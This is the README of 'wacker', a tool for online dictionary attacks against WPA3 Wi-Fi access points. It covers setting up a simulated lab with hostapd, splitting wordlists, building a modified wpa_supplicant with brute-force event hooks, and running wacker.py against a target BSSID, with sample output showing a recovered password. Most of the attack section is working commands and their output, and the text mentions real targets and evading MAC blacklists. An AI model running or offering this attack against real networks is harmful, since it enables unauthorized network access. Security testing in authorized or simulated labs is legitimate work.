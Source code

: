 # Overview
A set of scripts to help perform an online dictionary attack against a WPA3 access point. Wacker leverages the wpa_supplicant control interface to control the operations of the supplicant daemon and to get status information and event notifications ultimately helping speedup connection attempts during brute force attempts.

# Find a real AP to use
More to come on this.... wacker is still under development.

# Virtual Wifi Arena
Setup a local environment using mac80211_hwsim (details below) or use the VMs provided by the RF Hackers Sanctuary (highly recommended). Testing was done almost exculsively using the simulated mac80211 environments and perform very well.

## Local Simulated Radios
To set up your own software simulator of 802.11 radios simply configure and load the correct mac80211_hwsim module.
```
# modprobe mac80211_hwsim radios=4
# iwconfig
wlan0     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan1     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan2     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan3     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

Choose one of the new interfaces as your WPA3 access point and use the following conf file.
```
# cat hostapd.conf
interface=wlan0
ssid=WCTF_18
driver=nl80211
hw_mode=g
channel=1
logger_syslog=-1
logger_syslog_level=3
wpa=2
wpa_passphrase=Aeromechanics
wpa_key_mgmt=SAE
rsn_pairwise=CCMP
ieee80211w=2
group_mgmt_cipher=AES-128-CMAC
```
And start hostapd with
```
# hostapd -K -dd hostapd.conf
```


# Split a wordlist
If you have intentions of farming out your cracking efforts across a series of nics the provided split.sh script will partition a wordlist for you.
```
# ./split.sh 10 cyberpunk.words 
  50916 cyberpunk.words.aaa
  50916 cyberpunk.words.aab
  50916 cyberpunk.words.aac
  50916 cyberpunk.words.aad
  50916 cyberpunk.words.aae
  50916 cyberpunk.words.aaf
  50916 cyberpunk.words.aag
  50916 cyberpunk.words.aah
  50916 cyberpunk.words.aai
  50907 cyberpunk.words.aaj
 509151 total
```


# Building wpa_supplicant
We're providing our own wpa_supplicant in order to guarantee that certain configurations are set as well as a few mods that need to occur within the source code itself. To build simply do the following. Hopefully in the future this will become a deprecated step.
```
# apt-get install -y pkg-config libnl-3-dev gcc libssl-dev libnl-genl-3-dev
# cd wpa_supplicant-2.8/wpa_supplicant/
# cp defconfig_brute_force .config
# make -j4
# ls -al wpa_supplicant
-rwxr-xr-x 1 root root 13541416 May 31 16:30 wpa_supplicant
```
Of interest are a few new event messages that were added to the wpa supplicant control interface to help further distinguish outcomes the wacker script hooks.
```
/** auth success for our brute force stuff (WPA3) */
#define WPA_EVENT_BRUTE_SUCCESS "CTRL-EVENT-BRUTE-SUCCESS "
/** auth failure for our brute force stuff (WPA3) */
#define WPA_EVENT_BRUTE_FAILURE "CTRL-EVENT-BRUTE-FAILURE " 
```


# Python Requirement
The wacker.py script makes use of a few f-strings among other python3-isms. In the interest of releasing the code sooner this requirement was kept. Here are some generic install instructions for Python3.7 if needed. I know in the future this will become a deprecated step.

```
# apt-get install build-essential tk-dev libncurses5-dev libncursesw5-dev libreadline6-dev libdb5.3-dev libgdbm-dev libsqlite3-dev libssl-dev libbz2-dev libexpat1-dev liblzma-dev zlib1g-dev libffi-dev -y
# wget https://www.python.org/ftp/python/3.7.0/Python-3.7.0.tar.xz
# tar xf Python-3.7.0.tar.xz
# cd Python-3.7.0
# ./configure
# make -j4
# make altinstall
```


# Running wacker
The wacker.py script is intended to perform all the heavy lifting.
```
# ./wacker.py --help
usage: wacker.py [-h] --wordlist WORDLIST --interface INTERFACE --bssid BSSID
                 --ssid SSID --freq FREQ [--start START_WORD] [--debug]

A WPA3 dictionary cracker. Must run as root!

optional arguments:
  -h, --help            show this help message and exit
  --wordlist WORDLIST   wordlist to use
  --interface INTERFACE
                        interface to use
  --bssid BSSID         bssid of the target
  --ssid SSID           the ssid of the WPA3 AP
  --freq FREQ           frequency of the ap
  --start START_WORD    word to start with in the wordlist
  --debug               increase logging output
```
With any luck... running the attack using just one instance...
```
# ./wacker.py --wordlist cyberpunk.words --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan2 --freq 2412
Start time: 21 Aug 2020 07:40:11
Starting wpa_supplicant...
    5795 / 509151   words (1.14%) :  79.41 words/sec : 0.020 hours lapsed :   1.76 hours to exhaust (21 Aug 2020 09:25:49)
Found the password: 'Aeromechanics'

Stop time: 21 Aug 2020 07:41:24
```

Running multiple instances of wacker is easy if you have the spare nics. Don't forget to parition the wordlist as well.
```
# ./wacker.py --wordlist cyberpunk.words.aaa --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan1 --freq 2412
# ./wacker.py --wordlist cyberpunk.words.aab --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan2 --freq 2412
# ./wacker.py --wordlist cyberpunk.words.aac --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan3 --freq 2412
```

# Files of interest
wacker is quite verbose. Files of interest are found under <b>/tmp/wacker/</b>
 - wlan1 : one end of the uds
 - wlan1_client : one end of the uds
 - wlan1.conf : initial wpa_supplicant conf needed
 - wlan1.log : supplicant output (only when using --debug option)
 - wlan1.pid : pid file for the wpa_supplciant instance
 - wlan1_wacker.log : wacker debug output


# Caution
wacker doesn't handle acls put in place by the target WPA3 AP. Meaning, the current code always uses the same MAC address. If the target AP blacklists our MAC address then the script won't differentiate between a true auth failure and our blacklisted MAC being rejected. This will mean that we'll consider the true password as a failure. One way to solve.... we would have to add macchanger to the source at the expense of slowdown.


# Common Problems
* You'll see this when your client driver doesn't support the correct AKM. Typically this manifests itself in the wpa_supplicant output after you try and run the wacker script. The supplicant will essentially hang waiting further instructions with the AKM issue detailed below. The needed AKM is 00-0F-AC:8 (SAE) in the cases of WPA3.

```
u631_3: WPA: AP group 0x10 network profile group 0x18; available group 0x10
u631_3: WPA: using GTK CCMP
u631_3: WPA: AP pairwise 0x10 network profile pairwise 0x18; available pairwise 0x10
u631_3: WPA: using PTK CCMP
u631_3: WPA: AP key_mgmt 0x400 network profile key_mgmt 0x400; available key_mgmt 0x400
u631_3: WPA: Failed to select authenticated key management type
u631_3: WPA: Failed to set WPA key management and encryption suites
```


# TODO
* Create a wrapper script to launch wacker across multiple nics. This will avoid having to instantiate wacker manually for each nic. Have the wrapper also split the wordlist and consolidate the stats.
